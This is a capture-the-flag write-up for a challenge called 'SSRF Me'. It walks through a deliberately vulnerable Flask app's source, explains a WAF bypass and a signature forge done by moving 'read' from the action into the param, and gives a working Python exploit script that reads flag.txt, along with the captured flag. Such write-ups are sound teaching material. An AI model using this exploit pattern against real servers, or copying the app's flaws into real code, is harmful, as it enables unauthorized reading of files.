 # SSRF Me - Writeup 
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```python3
#! /usr/bin/env python 
#encoding=utf-8 
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 

reload(sys) 
sys.setdefaultencoding('latin1') 
app = Flask(__name__) 
secert_key = os.urandom(16) 

class Task: 
	def __init__(self, action, param, sign, ip): 
		self.action = action 
		self.param = param 
		self.sign = sign 
		self.sandbox = md5(ip) 
		if(not os.path.exists(self.sandbox)): 
			#SandBox For Remote_Addr 
			os.mkdir(self.sandbox) 

	def Exec(self): 
		result = {} 
		result['code'] = 500 
		if (self.checkSign()): 
			if "scan" in self.action: 
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
				resp = scan(self.param) 
				if (resp == "Connection Timeout"): 
					result['data'] = resp 
				else: 
					print resp 
					tmpfile.write(resp) 
					tmpfile.close()
					result['code'] = 200 
			if "read" in self.action: 
				f = open("./%s/result.txt" % self.sandbox, 'r') 
				result['code'] = 200 
				result['data'] = f.read() 
			if result['code'] == 500: 
				result['data'] = "Action Error" 
		else: 
			result['code'] = 500 
			result['msg'] = "Sign Error" 
		return result 

	def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False 

#generate Sign For Action Scan. 
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
	action = urllib.unquote(request.cookies.get("action")) 
	param = urllib.unquote(request.args.get("param", "")) 
	sign = urllib.unquote(request.cookies.get("sign")) 
	ip = request.remote_addr 
	if(waf(param)): 
		return "No Hacker!!!!" 
	task = Task(action, param, sign, ip) 
	return json.dumps(task.Exec()) 

@app.route('/') 
def index(): 
	return open("code.txt","r").read() 

def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 

def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content): 
	return hashlib.md5(content).hexdigest()

def waf(param): 
	check=param.strip().lower() 
	if check.startswith("gopher") or check.startswith("file"): 
		return True 
	else: 
		return False 

if __name__ == '__main__': 
	app.debug = False 
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```python3
task = Task(action, param, sign, ip) 
return json.dumps(task.Exec()) 
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```python3
def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```python3
def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 
``` 

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```python3
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```python3
if "scan" in self.action: 
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
	resp = scan(self.param) 
	if (resp == "Connection Timeout"): 
		result['data'] = resp 
	else: 
		print resp 
		tmpfile.write(resp) 
		tmpfile.close()
		result['code'] = 200 
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```python3
if "read" in self.action: 
	f = open("./%s/result.txt" % self.sandbox, 'r') 
	result['code'] = 200 
	result['data'] = f.read() 
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```python3
def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` without a protocol would attempt to read files from the file system. The challenge hint says...

>flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"flag.txtread"` (the value of `action` will be `"scan"`) and generate the *same* hash as if we pass `param` as `"flag.txt"` and `action` as `"readscan"`.

```python3
"flag.txtread"+"scan" == "flag.txt"+"readscan"
```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```python3
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
